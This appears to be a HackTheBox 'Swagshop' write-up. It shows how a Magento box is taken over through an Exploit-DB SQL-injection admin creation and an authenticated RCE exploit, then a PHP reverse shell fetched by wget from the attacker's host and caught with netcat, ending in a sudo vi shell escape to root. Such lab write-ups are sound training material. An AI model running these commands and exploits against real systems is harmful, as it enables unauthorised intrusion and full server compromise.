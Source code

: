 ```yaml
---
layout: post
title:  "HTB - Swagshop Write-up"
description: <img src="https://werdinfosec.com/images/2019-09-28/image0.png" class="centered" />

date:   2019-09-28 
categories: hackthebox hack the box swagshop swag shop write-up writeup write up
---
```


<img src="https://werdinfosec.com/images/2019-09-28/image1.png" class="centered" />

<br/>

Hostname: swagshop.htb
======================

IP: 10.10.10.140
================

OS: Ubuntu 16.04
================

Difficulty: Easy
================

Creator: ch4p
=============
<br/>
<br/>
<br/>

TL;DR
=====
Swagshop is an easy linux box on HackTheBox, which is running a vulnerable version of Magento. Using a python exploit, a sql injection creates an admin account.
After creating the admin account a remote code execution python exploit allows for downloading a shell to the webroot. After triggering the reverse shell, loose restictions on sudo allow www-data to run 
vi on files in /var/www/html as root with no password. Escaping vi with a classic shell escape provides a shell as root.

<br/>

Enumeration
===========

Enumeration starts with a quick nmap scan. This reveals two open ports, 22 and 80. 

*command: nmap -sC -sV 10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image2.png" class="centered" />

Visiting port 80 a magento page is discovered. 

*url: http://10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image3.png" class="centered" />

Magento version enumeration is done by visting RELEASE_NOTES.txt

*url:http://10.10.10.140/RELEASE_NOTES.txt*
<img src="https://werdinfosec.com/images/2019-09-28/image4.png" class="centered" />

<br/>

Exploitation
============

The first [exploit] used creates an admin user on the Magento Web Application through a sql injection.

*command: searchsploit magento*
<img src="https://werdinfosec.com/images/2019-09-28/image5.png" class="centered" />

Mirroring the exploit to the working directory.

*command: searchsploit -m exploits/xml/webapps/37877.py*
<img src="https://werdinfosec.com/images/2019-09-28/image6.png" class="centered" />

For the exploit to work, remove all uncommented text. We are required to add the target ip to the exploit. The path has to be altered, as it is incorrect.

<img src="https://werdinfosec.com/images/2019-09-28/image7.png" class="centered" />

Set the new admin username and password to anything you'd like. I chose the username and password newadmin:hacker

<img src="https://werdinfosec.com/images/2019-09-28/image8.png" class="centered" />

Running the modified exploit.

*command python magentoexploit.py*
<img src="https://werdinfosec.com/images/2019-09-28/image9.png" class="centered" />

Logging in as 'newadmin to confirm that we have created a valid admin user.

*url: http://10.10.10.140/index.php/admin/*
<img src="https://werdinfosec.com/images/2019-09-28/image10.png" class="centered" />

<br/>

Remote Code Execution Exploit
=============================

Finding an [Authenticated Remote Code Execution Exploit].

<img src="https://werdinfosec.com/images/2019-09-28/image11.png" class="centered" />

Mirroring the exploit to current directory.

<img src="https://werdinfosec.com/images/2019-09-28/image12.png" class="centered" />

The exploit requires the exact date and time of the installation. This information can be found at /app/etc/local.xml

*url: http://10.10.10.140/app/etc/local.xml*
<img src="https://werdinfosec.com/images/2019-09-28/image13.png" class="centered" />

This exploit requires that username and password are defined. Change the install_date variable toreflect local.xml. Also the manual username control prevents the exploit from executing successfully.

<img src="https://werdinfosec.com/images/2019-09-28/image14.png" class="centered" />
<img src="https://werdinfosec.com/images/2019-09-28/image15.png" class="centered" />

Running the exploit. Executing whoami and pwd.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "whoami"*
*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "pwd"*
<img src="https://werdinfosec.com/images/2019-09-28/image16.png" class="centered" />

Downloading a reverse shell to /var/www/html allows for executing the php when triggered through a web browser. 
Starting python simpleHTTPserver to serve the [pentest monkey reverse shell]. Don't forget to change the IP and Port variable to reflect the attacker's listener information.

*command: python -m SimpleHTTPServer 80*
<img src="https://werdinfosec.com/images/2019-09-28/image17.png" class="centered" />

Downloading the reverse shell with the exploits remote code execution.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "wget http://10.10.14.20/revsh.php"*
<img src="https://werdinfosec.com/images/2019-09-28/image18.png" class="centered" />

Starting a netcat listener:

*command: nc -lvnp 443*
<img src="https://werdinfosec.com/images/2019-09-28/image19.png" class="centered" />

Triggering the reverse shell.

*url: http://10.10.10.140/revsh.php*
<img src="https://werdinfosec.com/images/2019-09-28/image20.png" class="centered" />

Catching the reverse shell as user www-data

<img src="https://werdinfosec.com/images/2019-09-28/image21.png" class="centered" />

Privilege Escalation
====================

First things first, upgrade to a tty with python3. Python 2 is not on this system, but python3 is. 

*command: python3 -c "import pty; pty.spawn('/bin/bash')"*
<img src="https://werdinfosec.com/images/2019-09-28/image22.png" class="centered" />

It appears www-data can run /usr/bin/vi on any file in the /var/www/html directory as root without a password.

*command: sudo -l*
<img src="https://werdinfosec.com/images/2019-09-28/image23.png" class="centered" />

Running the following command will start vi as root. Using vi we can execute any bash command by prepending the command with ':!'.

*command: sudo vi /var/www/html/anyfile*
<img src="https://werdinfosec.com/images/2019-09-28/image24.png" class="centered" />

The shell escape sequence:

*command: :! /bin/bash*
<img src="https://werdinfosec.com/images/2019-09-28/image25.png" class="centered" />

<br/>

ROOTED
======

<img src="https://werdinfosec.com/images/2019-09-28/image26.png" class="centered" />

Flags:

<img src="https://werdinfosec.com/images/2019-09-28/image27.png" class="centered" />


[pentest monkey reverse shell]:https://github.com/pentestmonkey/php-reverse-shell
[Authenticated Remote Code Execution Exploit]:https://www.exploit-db.com/exploits/37811
[exploit]:https://www.exploit-db.com/exploits/37977
